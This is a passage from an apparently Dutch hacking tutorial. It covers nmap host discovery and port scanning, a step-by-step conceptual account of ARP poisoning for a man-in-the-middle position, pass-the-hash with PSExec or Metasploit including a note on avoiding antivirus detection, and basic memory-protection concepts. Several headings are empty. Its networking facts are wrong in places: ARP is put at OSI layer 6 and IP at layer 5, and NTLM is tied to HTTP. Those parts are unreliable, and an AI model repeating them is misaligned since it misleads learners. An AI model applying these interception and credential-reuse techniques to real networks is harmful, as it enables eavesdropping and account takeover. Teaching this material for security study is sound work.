Dit kun je ook eenvoudiger maken met de tool netdiscover en de schakeloptie -p.

### Actieve host discovery ###

#### Ping sweep ####
Een ping sweep is iets wat in gemonitorde omgevingen waarschijnlijk op zal vallen en het zal alleen werken als er geen ICMP filtering is geïmplementeerd. ICMP filtering voorkomt immers dat een host op een PING verzoek kan reageren.

Probeer zelf een programma te schrijven die het ICMP Ping pakket verzend, of gebruik nmap -sP <ipange> om het IP adres van je home lab server te vinden.

### Port scan ###
nmap -p <ports> <ip>

 

## ARP poisoning ##

Een van de manieren om een man in the middle positie te bemachtigen is ARP poisoning. ARP staat voor Address Resolution Protocol. Om de werking van ARP op een goede manier te begrijpen is het noodzakelijk om het OSI model te snappen. Voor het OSI model verwijs ik terug naar het "protocollen" kopje.

Het ARP protocol (laag 6) zorgt ervoor dat de computers binnen een IP subnet (laag 5) van elkaar kunnen weten aan welk MAC adres men een frame moet zenden. Als voorbeeld hebben wij een netwerk met de volgende systemen:

Hostnaam   - IP Adres	 - MAC adres
Computer A - 192.168.1.2 - MACADDR1
Computer B - 192.168.1.3 - MACADDR2

Op het moment dat computer A een berichtje wil sturen naar computer B zal computer A zowel het IP adres als het MAC adres van computer B weten. Het IP adres is ingegeven door de gebruiker, met dat IP adres stuurt computer A een ARP verzoek.

> Wie heeft IP adres 192.168.1.3? Vertel het 192.168.1.2!

Dit bericht wordt op laag 7 opgevangen door de computers op het subnet. Elke computer gaat in zijn OSI model omhoog vragen of het IP adres bij hem hoort. Laag 7 vraagt aan laag 6, laag 6 aan laag 5 en daar komt computer B erachter dat dit MAC adres van hem is. Computer B stuurt deze bevestiging terug naar laag 6, die weer naar laag 7 en dan wordt er op het netwerk het volgende ARP bericht verzonden:

> 192.168.1.3 is te vinden op MACADDR2

Op dat moment weet computer A het juiste MAC adres en kan computer A het pakketje versturen.

Bij ARP poisoning komen wij op computer C om de hoek.
Hostnaam   - IP Adres	 - MAC adres
Computer A - 192.168.1.2 - MACADDR1
Computer B - 192.168.1.3 - MACADDR2
Computer C - 192.168.1.4 - EVILMAC1

Computer A vraagt weer in het netwerk:

> Wie heeft IP adres 192.168.1.3? Vertel het 192.168.1.2!

maar het is nu niet computer B die als eerste kan reageren, maar dat zijn wij op computer C. Op het moment dat wij het verzoek van computer A zien sturen wij zo snel (en vaak) mogelijk naar het MAC adres van computer A:

> 192.168.1.3 is te vinden op EVILMAC1

> 192.168.1.3 is te vinden op EVILMAC1

> 192.168.1.3 is te vinden op EVILMAC1

> 192.168.1.3 is te vinden op EVILMAC1

en als wij eerder zijn dan de reactie van computer B dan wordt het bericht naar ons verzonden, ditzelfde doen wij ook zo snel mogelijk voor het pad van computer B naar computer A. Wij sturen op het netwerk ook zo vaak en snel mogelijk

> 192.168.1.3 is te vinden op EVILMAC1

> 192.168.1.3 is te vinden op EVILMAC1

> 192.168.1.3 is te vinden op EVILMAC1

> 192.168.1.3 is te vinden op EVILMAC1
 
naar het MAC adres van computer A. Op onze eigen computer zorgen wij ervoor dat wij de binnengekomen pakketten ook opnieuw verzenden naar de goede computer zodat het netwerk blijft draaien, en je hebt een Man in the Middle positie bemachtigd.

Tooling: Arpspoof, ettercap, bettercap 

## Pash the hash ##

In Windows domeinen kan er gebruikt worden van NTLM (NT Lan Manager) authenticatie. Dit is een authenticatiemethode die gebruikt maakt van het HTTP protocol om een single sign-on mogelijkheid te maken.

Bij pass the hash maak je gebruik van dit protocol om jezelf te authenticeren als een ander. Alhoewel wachtwoorden nooit ongehashed over het netwerk zullen gaan, en je dus niet zomaar als een ander kan inloggen als je naar zijn computer loopt, worden hashes wel over het netwerk verzonden. Aangezien een gebruiker zichzelf bij diensten (shares etc.) aanmeld met deze hash kan je die hergebruiken.

Geavanceerde hacktools om pash the hash mee te doen? PSExec [Windows Sysinternals](https://docs.microsoft.com/en-us/sysinternals/) of de vergelijkbare variant van Metasploit. Let wel op, de ene variant laat eerder een virusscanner af gaan dan de ander.

# Binary exploitation #

## Geheugenbeheer ##

### Stack ###
De stack is een voor een proces gereserveerd stukje geheugen waarin een proces al zijn tijdelijke variabelen opgeslagen worden. Het is een LIFO lijst (Last In First Out). Als een aangeroepen functie, met de daarbij behorende argumenten, beëindigd is popt het systeem deze waarden van de stack af. 

De stack groeit naar beneden, het begint bij hoge geheugenadressen en werkt naar de lage adressen toe. Overigens, voor array's geld dat het geheugenbereik aan elkaar vast moet zitten. De stack groeit bij een array dus precies de andere kant op.  

### Heap ###
De heap is per proces gereserveerd, en is een poel geheugen waarbinnen een applicatie een geheugen reservering kan doen. Bij de heap zal je dus ook zelf het beheer van het geheugengebruik moeten doen. Het grote voordeel van de heap is dat je variabelen overal overal in je applicatie, mits de pointer natuurlijk bekend is, gebruikt kunnen worden. 

## Beveiligingsmechanismen ##

### ASLR ###

### NX-Bit ###

### DEP ###
DEP, voluit Data Execution Prevention, ([Windows](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366553(v=vs.85).aspx) is een methode waarmee Microsoft tracht te voorkomen dat een kwaadwillende code kan uitvoeren in een geheugenbereik die als non-executable gemarkeerd is. Aangezien DEP pas geïntroduceerd is in [Windows XP](https://en.wikipedia.org/wiki/Windows_XP) [SP2](https://en.wikipedia.org/wiki/Windows_XP#Service_Pack_2), is dit OS met [SP1](https://en.wikipedia.org/wiki/Windows_XP#Service_Pack_1) uitermate geschikt om in te oefenen.

Er bestaan onder Windows twee varianten van DEP, namelijk de softwarematige DEP en de hardwarematige DEP. De softwarematige DEP beschermd niet tegen het uitvoeren van code in het geheugen maar juist wel tegen een SEH overflow.

Hardwarematige DEP is pas geïntroduceerd in windows Vista. Bij hardwarematige DEP word er een expliciet stukje geheugen aangemerkt als niet uitvoerbaar en dit zal door de processor worden afgedwongen. Voor een verdere uitleg hierover zie het kopje NX-Bit.

### RELRO ###

### Canary ###

### SSP ###

### PIE ###

# Dankwoord #

Proofreaders, zonder jullie trouwe leeshulp stonden hier nog meer fouten :-) 
Github, bedankt voor het hosten :)

Wil jij ook opgenomen worden in dit dankwoord? Begin dan met bijdragen op de [github](https://github.com/gatochhacken/gatochhacken.github.io). Dit kan je doen door actief contributes te doen, of door issues aan te maken met fouten/requests die je graag wilt zien.

<!-- Global site tag (gtag.js) - Google Analytics -->

